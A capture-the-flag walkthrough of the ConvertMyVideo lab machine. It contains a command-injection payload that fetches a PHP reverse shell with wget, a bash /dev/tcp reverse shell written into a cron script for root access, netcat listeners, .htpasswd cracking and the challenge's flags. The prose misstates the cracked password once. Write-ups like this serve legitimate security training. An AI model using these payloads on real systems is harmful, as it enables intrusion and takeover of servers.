

# ConvertMyVideo

My Script to convert videos to MP3 is super secure.

# [Task 1] Hack the machine

You can convert your videos - Why don't you check it out!

## #1 - What is the name of the secret folder?

Let's start with a Nmap scan.

~~~
$ nmap -sC -sV -A 10.10.245.43
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-15 13:03 CEST
Nmap scan report for 10.10.245.43
Host is up (0.070s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.87 seconds
~~~

The server has 2 open ports, 22 and 80, respectively for SSH and HTTP.

There is no `robots.txt` file. Let's start with a basic dirsearch scan:

~~~
$ /data/src/dirsearch/dirsearch.py -u 10.10.245.43 -E -w /data/src/wordlists/common.txt 

 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, js, html, do, action | HTTP method: get | Threads: 10 | Wordlist size: 4614

Error Log: /data/src/dirsearch/logs/errors-20-06-15_13-05-01.log

Target: 10.10.245.43

[13:05:01] Starting: 
[13:05:02] 200 -  747B  - /
[13:05:02] 403 -  277B  - /.hta
[13:05:04] 401 -  459B  - /admin
[13:05:14] 301 -  313B  - /images  ->  http://10.10.245.43/images/
[13:05:15] 200 -  747B  - /index.php
[13:05:15] 301 -  309B  - /js  ->  http://10.10.245.43/js/
[13:05:23] 403 -  277B  - /server-status
[13:05:25] 301 -  310B  - /tmp  ->  http://10.10.245.43/tmp/

Task Completed
~~~

We discover a hidden `admin` directory.

## #2 - What is the user to access the secret folder?

The web page has no `form` tag but includes the jquery library as well as a custom `main.js` javascript:

~~~
$ curl -s http://10.10.161.26/

<html>
   <head>
      <script type="text/javascript" src="/js/jquery-3.5.0.min.js"></script>
      <script type="text/javascript" src="/js/main.js"></script>
      <link rel="stylesheet" type="text/css" href="/style.css">
   </head>
   <body>
      <div id="container">
         <div id="logos">
            
            
         </div>
         <h3>Convert My Video</h3>
         <label for="ytid">Video ID:</label><input type="text" id="ytid" name="ytid">
         <button type="button" id="convert">Convert!</button>
         <span id="message"></span>
      </div>
   </body>
</html>
~~~

The `main.js` script reveals what happens when the "Convert!" button is pressed:

```javascript
$(function () {
    $("#convert").click(function () {
        $("#message").html("Converting...");
        $.post("/", { yt_url: "https://www.youtube.com/watch?v=" + $("#ytid").val() }, function (data) {
            try {
                data = JSON.parse(data);
                if(data.status == "0"){
                    $("#message").html("<a href='" + data.result_url + "'>Download MP3</a>");
                }
                else{
                    console.log(data);
                    $("#message").html("Oops! something went wrong");
                }
            } catch (error) {
                console.log(data);
                $("#message").html("Oops! something went wrong");
            }
        });
    });

});
```

We can see that the youtube ID (user input) is concatenated to `https://www.youtube.com/watch?v=` to get the full Youtube URL of the requested video. The resulting string is saved to `yt_url` and passed to the main page in JSON. The result is logged in the console (`Ctrl+I` to fire up the web developer bar), and a message will be displayed in the `message` div.

As the server has no access to the Internet (this is common for all THM servers) for obvious reasons, the script (web service for which we don't know the source code) will ultimately fail after timeout.

After reaching the timeout, our assumption is confirmed and the console has logged the following JSON response:

~~~
Object { status: 1, errors: "WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nERROR: Unable to download webpage: <urlopen error [Errno 101] Network is unreachable> (caused by URLError(error(101, 'Network is unreachable'),))\n", url_orginal: "https://www.youtube.com/watch?v=AUYiV7Pygd4", output: "[youtube] AUYiV7Pygd4: Downloading webpage\n", result_url: "/tmp/downloads/5ee77f99d13c2.mp3" 
~~~

Based on this analysis, let's try to inject some commands in the `yt_url` parameter using BurpSuite Repeater (`${IFS}` is used for spaces):



*Interestingly, searching for parameters reported in the error message leads to https://github.com/ytdl-org/youtube-dl, which seems to be the service installed on the server.*

Now, let's use this to inject a reverse shell. First download a [PHP reverse shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz), rename it `shell.php` and change the IP and port. Make it available through a python web server (`python3 -m http.server`). Now, inject it (below is the requets in BurpSuite Repeater):

~~~
POST / HTTP/1.1
Host: 10.10.161.26
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 51
Origin: http://10.10.161.26
DNT: 1
Connection: close
Referer: http://10.10.161.26/

yt_url=`wget${IFS}http://10.8.50.72:8000/shell.php`
~~~

Here is the response in BurpSuite Repeater:

~~~
HTTP/1.1 200 OK
Date: Mon, 15 Jun 2020 15:34:42 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 830
Connection: close
Content-Type: text/html; charset=UTF-8

{"status":2,"errors":"--2020-06-15 15:34:42--  http:\/\/10.8.50.72:8000\/shell.php\nConnecting to 10.8.50.72:8000... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 5492 (5.4K) [application\/octet-stream]\nSaving to: 'shell.php'\n\n     0K .....                                                 100%  136K=0.04s\n\n2020-06-15 15:34:42 (136 KB\/s) - 'shell.php' saved [5492\/5492]\n\nWARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nUsage: youtube-dl [OPTIONS] URL [URL...]\n\nyoutube-dl: error: You must provide at least one URL.\nType youtube-dl --help to see a list of all options.\n","url_orginal":"`wget${IFS}http:\/\/10.8.50.72:8000\/shell.php`","output":"","result_url":"\/tmp\/downloads\/5ee7951264f4c.mp3"}
~~~

Now, open a listener on your machine (`rlwrap nc -nlvp 4444`) and access the shell via your browser (http://10.10.161.26/shell.php). You should now have a reverse shell in place.

~~~
$ cd /var/www/html/admin/
$ ll
total 24
drwxr-xr-x 2 www-data www-data 4096 Apr 12 05:05 .
drwxr-xr-x 6 www-data www-data 4096 Jun 15 15:34 ..
-rw-r--r-- 1 www-data www-data   98 Apr 12 03:55 .htaccess
-rw-r--r-- 1 www-data www-data   49 Apr 12 04:02 .htpasswd
-rw-r--r-- 1 www-data www-data   39 Apr 12 05:05 flag.txt
-rw-rw-r-- 1 www-data www-data  202 Apr 12 04:18 index.php
$ cat .htpasswd
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
~~~

We can crack the password with John:

~~~
$ /data/src/john/run/john htpdata/src/john/run/john htpasswd 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/data/src/john/run/password.lst
jessie           (itsmeadmin)
1g 0:00:00:00 DONE 2/3 (2020-06-15 17:56) 5.000g/s 12270p/s 12270c/s 12270C/s bigdog..keeper
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

The user to access the `admin` part of the website is `itsmeadmin` and the associated password is `jesie`

## #3 - What is the user flag?

Still in `/var/www/html/admin/` we get the user flag:

~~~
$ cat flag.txt
flag{0d8486a0c0c42503bb60ac77f4046ed7}
~~~

## #4 - What is the root flag?

Let's upgrade our shell:

~~~
$ SHELL=/bin/bash script -q /dev/null
www-data@dmv:/$ 
~~~

First thing was to analyze the sources in `/var/www/html`. In the `admin` directory, the `index.php` reveals a link to execute a command? Oh.... seriously? Was it actually the expected way of getting our initial shell instead of hacking the web service? I don't know as it would also require to have the `itsmeadmin` account and password. Anyway, very interesting point, the default command (`rm -rf /var/www/html/tmp/downloads`) removes the directory `downloads` in `/tmp`

```php
www-data@dmv:/var/www/html/tmp$ cat /var/www/html/admin/index.php
<?php
  if (isset($_REQUEST['c'])) {
      system($_REQUEST['c']);
      echo "Done :)";
  }
?>
<a href="/admin/?c=rm -rf /var/www/html/tmp/downloads">
   <button>Clean Downloads</button>
```

Now, in `tmp`, there is a `clean.sh` script that does the same thing. Why? Probably because it's scheduled with a cronjob.

~~~
www-data@dmv:/var/www/html/tmp$ cat /var/www/html/tmp/clean.sh
rm -rf downloads
~~~

I created a download `downloads` directory inside `tmp` and after 30 seconds, it disappeared. Our assessment is confirmed. As we have write access to the script, let's replace the content with a reverse shell on another port (say `5555` for example).

~~~
www-data@dmv:/var/www/html/tmp$ echo "bash -i >& /dev/tcp/10.8.50.72/5555 0>&1" > clean.sh
~~~

Now, open a listener on port 5555 on your machine:

~~~
$ rlwrap nc -nlvp 5555
~~~

At this stage, I was not expecting to be root as I also noticed a dmv user, but after 30 seconds or so, I got root access (I was almost disappointed and think it would have been great to exploit this other user).

~~~
root@dmv:/var/www/html/tmp# cd /root
root@dmv:~# cat root.txt
cat root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
~~~

Anyway, that was a really great challenge and I had a lot of fun! Congratulations to the author!

Root flag: `flag{d9b368018e912b541a4eb68399c5e94a}`
